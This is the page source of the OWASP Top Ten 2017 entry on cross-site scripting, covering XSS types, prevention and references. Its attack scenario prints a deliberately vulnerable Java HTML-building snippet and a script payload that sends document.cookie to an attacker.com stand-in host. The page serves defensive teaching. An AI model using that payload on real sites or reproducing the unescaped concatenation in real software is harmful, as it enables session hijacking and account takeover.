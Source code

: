 ```yaml
---

document: OWASP Top Ten 2017
year: 2017
order: 12
title: A7:2017-Cross-Site Scripting (XSS)
lang: en
layout: full-width-document
author:
contributors:
tags: OWASP Top Ten 2017, Top Ten, A7:2017, xss
exploitability: 3
prevalence: 3
detectability: 3
technical: 2
redirect_from: OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS).html

---
```


{% include risk_begin.html %}
{%- include risk_description.html pos="firstLeft" -%}
Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.
{%- include risk_description.html pos="mid" -%}
XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br>
Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.
{%- include risk_description.html pos="right" -%}
The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
{%- include risk_end.html -%}

{%- include t10_subsection_begin.html -%}
{%- include t10_subsection.html token="isTheApplicationVulnerable" pos="firstLeft" -%}
There are three forms of XSS, usually targeting users' browsers:<br>
* **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.<br>
* **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.<br>
* **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.<br>

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

{%- include t10_subsection.html token="howToPrevent" pos="right" -%}
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:<br>
* Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.<br>
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data escaping techniques.<br>
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).<br>
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).<br>

{%- include t10_subsection.html token="exampleAttackScenarios" pos="left" -%}
**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:<br>
    {% include code_red_begin.html -%} (String) page += "<input name='creditcard' type='TEXT' {%- include code_red_end.html %}
    {% include code_red_begin.html -%} value='" + request.getParameter("CC") + "'>"; {%- include code_red_end.html %}

The attacker modifies the ‘CC’ parameter in the browser to:<br>
    {% include code_red_begin.html -%} '>&lt;script>document.location= {%- include code_red_end.html %}
    {% include code_red_begin.html -%} 'http://www.attacker.com/cgi-bin/cookie.cgi? {%- include code_red_end.html %}
    {% include code_red_begin.html -%} foo='+document.cookie&lt;/script>'. {%- include code_red_end.html %}

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. <br>
**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

{%- include t10_subsection.html token="references" pos="right" -%}
**OWASP**<br>
* [OWASP Proactive Controls: Encode and Escape Data](/www-project-proactive-controls/v3/en/c4-encode-escape-data)<br>
* [OWASP Proactive Controls: Validate All Inputs](/www-project-proactive-controls/v3/en/c5-validate-inputs)<br>
* [OWASP Application Security Verification Standard: V5](/www-project-application-security-verification-standard)<br>
* [OWASP Testing Guide: Testing for Reflected XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for Stored XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for DOM XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client_Side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)<br>
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: XSS Filter Evasion](/www-community//xss-filter-evasion-cheatsheet)<br>
* [OWASP Java Encoder Project](/www-project-java-encoder) ([old wiki](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project))<br>
<br>
**External**<br>
* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)<br>
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
{% include t10_subsection_end.html %}